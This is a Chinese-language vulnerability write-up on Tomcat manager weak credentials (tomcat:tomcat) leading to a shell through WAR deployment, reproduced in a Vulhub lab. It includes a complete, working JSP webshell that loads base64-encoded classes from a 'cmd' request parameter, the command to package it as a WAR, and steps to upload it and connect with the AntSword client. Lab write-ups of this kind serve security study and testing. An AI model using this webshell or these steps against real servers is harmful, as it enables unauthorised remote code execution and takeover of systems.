





# Tomcat7+ 弱口令 && 后台getshell漏洞


| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 |                                                              |
| 漏洞名称 | Tomcat7+ 弱口令 && 后台getshell漏洞                          |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Tomcat 版本：8.0                                             |
| 漏洞描述 | Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限<br>tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击 |
| 修复方案 |                                                              |

### 1.1、漏洞描述

Tomcat 支持在后台部署 war 文件，可以直接将 webshell 部署到 web 目录下。其中，欲访问后台，需要对应用户有相应权限

Tomcat7+权限分为：

- manager（后台管理）
  - manager-gui 拥有html页面权限
  - manager-status 拥有查看status的权限
  - manager-script 拥有text接口的权限，和status权限
  - manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
  - admin-gui 拥有html页面权限
  - admin-script 拥有text接口权限

这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html

在`conf/tomcat-users.xml`文件中配置用户的权限：

```jsp
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

    <role rolename="manager-gui"/>
    <role rolename="manager-script"/>
    <role rolename="manager-jmx"/>
    <role rolename="manager-status"/>
    <role rolename="admin-gui"/>
    <role rolename="admin-script"/>
    <user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
    
</tomcat-users>
```

可见，用户tomcat拥有上述所有权限，密码是`tomcat`。

正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。

### 1.2、漏洞等级

高危

### 1.3、影响版本

Tomcat 版本：8.0

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/tomcat/tomcat8

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到



点击`Manager App`即可跳到管理登陆页面



输入用户名密码       `tomcat:tomcat`，来到管理界面




#### 2、漏洞扫描

#### 3、漏洞验证

登录到后台后可以通过部署`war`包进行`getshell`

找一个`a.jsp`木马

```jsp
<%!
      class U extends ClassLoader {
		  U(ClassLoader c){
			  super(c);
		  }
		  public Class g(byte[] b){
			  return super.defineClass(b,0,b.length);
		  }
	  }
	 public byte[] base64Decode(String str) throws Exception{
		 try{
			 Class clazz =Class.forName("sun.misc.BASE64Decoder");
			 return (byte[]) clazz.getMethod("decodeBuffer",String.class).invoke(clazz.newInstance(),str);
		 }catch (Exception e){
			 Class clazz =Class.forName("java.util.Base64");
			 Object decoder =clazz.getMethod("getDecoder").invoke(null);
			 return(byte[])decoder.getClass().getMethod("decode",String.class).invoke(decoder,str);
		 }
	 }
%>
<% 
       String cls =request.getParameter("cmd");
       if(cls != null){
         new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);	 
 }
%>

```

打包成`war`包

```bash
jar cvf tomcat.war a.jsp
```



上传打包的`tomcat.war`

生成一个`tomcat`的路径


在地址栏路径中访问`http://192.168.80.141:8080/tomcat/a.jsp`



蚁剑连接，密码`cmd`


